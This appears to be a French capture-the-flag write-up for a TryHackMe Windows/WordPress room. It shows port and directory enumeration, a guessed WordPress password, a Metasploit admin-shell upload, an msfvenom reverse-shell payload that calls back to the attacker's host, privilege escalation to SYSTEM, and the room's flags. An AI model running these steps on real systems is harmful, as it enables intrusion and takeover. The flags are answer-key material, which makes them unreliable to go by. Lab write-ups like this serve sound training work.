

# THM - Bounty Hacker
<p align="center">
  
</p>

Description | Difficulté | Lien
-------------|------------|-----
New high score! | Hard 🔴| [THM](https://tryhackme.com/room/retro)

Enumération des ports :
```
Port 80 et port 3389 ouvert
```

On regarde le port 80, on sait que c'est un IIS version 10.
On énumére les chemins avec dirsearch :
<p align="center">
  
</p>

Un second site est présent sur le chemin /retro/
> **Note**
> Première question : A web server is running on the target. What is the hidden directory which the website lives on ? ``/retro`` 

En allant dessus, on comprend que c'est un wordpress et j'utilise WPSCAN pour énumérer les vulnérabilités, je n'en trouve aucune, mais j'énumère les utilisateurs et je découvre le nom de "wade" qui est l'auteur de tous les articles.

En regardant les posts sur le site, on découvre que wade c'est mis un pense-bête dans un commentaire. Il met qu'il ne faut pas oublier comment s'écrit "parzival". 

J'essaye parzival comme mot de passe et bingo ça fonctionne.
Notre premier jeu de credential :
```
wade:parzival
```

Avec ce mot de passe, je me fait spawn un shell via metasploit :
```bash
msfconsole -q 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 10.10.185.133
RHOST => 10.10.185.133
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /retro/
targeturi => /retro/
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username wade
username => wade
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password parzival
password => parzival
msf6 exploit(unix/webapp/wp_admin_shell_upload) > check
[*] 10.10.185.133:80 - The target appears to be vulnerable.
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.14.49.211
LHOST => 10.14.49.211
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
```

On a un premier shell mais pas super stable, je décide d'envoyer un autre shell :
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.49.211 LPORT=4445 -f exe > shell.exe
```
Avec le premier shell exploité, j'upload le nouveau :
```bash
upload shell.exe
execute -f shell.exe
```
Et depuis une seconde console, j'execute msfconsole à nouveau :
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.14.49.211
LHOST => 10.14.49.211
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
Et enfin j'upgrade le shell vers meterpreter :
```bash
[CTRL + Z]
Background session 2? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.14.49.211
msf6 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf6 post(multi/manage/shell_to_meterpreter) > exploit
msf6 post(multi/manage/shell_to_meterpreter) > sessions 3
[*] Starting interaction with 3...

meterpreter >
```
Et enfin je deviens SYSTEM avec la commande getsystem qui facilite l'exploit :
```bash
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Je recupère les deux flags.
```cmd
type c:\Users\Wade\Desktop\user.txt.txt
3b99fbdc6d430bfb51c72c651a261927
type c:\Users\Administrator\root.txt.txt
7958b569565d7bd88d10c6f22d1c4063
```
> **Note**
> Seconde question : user.txt ``3b99fbdc6d430bfb51c72c651a261927``

> **Note**
> Troisième question : root.txt ``7958b569565d7bd88d10c6f22d1c4063``
